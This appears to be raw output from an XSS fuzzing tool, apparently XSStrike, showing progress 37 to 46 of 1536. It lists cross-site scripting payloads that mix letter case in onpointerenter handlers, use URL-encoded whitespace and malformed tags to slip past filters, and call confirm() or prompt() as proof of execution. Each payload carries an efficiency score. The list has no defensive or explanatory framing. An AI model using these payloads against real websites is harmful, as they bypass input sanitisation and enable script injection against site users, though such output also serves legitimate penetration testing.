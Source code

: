 ------------------------------------------------------------
 Payload: <a%0aonpoInteREntEr%09=%09(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 37/1536
 
------------------------------------------------------------
 Payload: <Html%0dONpOINTERENtER%0d=%0d(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 38/1536
 
------------------------------------------------------------
 Payload: <A%09onpOiNtereNTEr+=+[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 39/1536
 
------------------------------------------------------------
 Payload: <d3V/+/oNPointEreNteR%09=%09(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 40/1536
 
 Progress: 41/1536
 
------------------------------------------------------------
 Payload: <dEtAILs/+/ONpOIntEreNtER%09=%09(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 42/1536
 
------------------------------------------------------------
 Payload: <D3V/+/oNpOInTErENtER%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 43/1536
 
------------------------------------------------------------
 Payload: <d3v%0aOnPOinteRentER+=+confirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 44/1536
 
------------------------------------------------------------
 Payload: <DEtaIlS%0aONPOiNTErENTeR%09=%09(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 45/1536
 
------------------------------------------------------------
 Payload: <D3V%0dONPOiNTErENTeR+=+(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 46/1536
 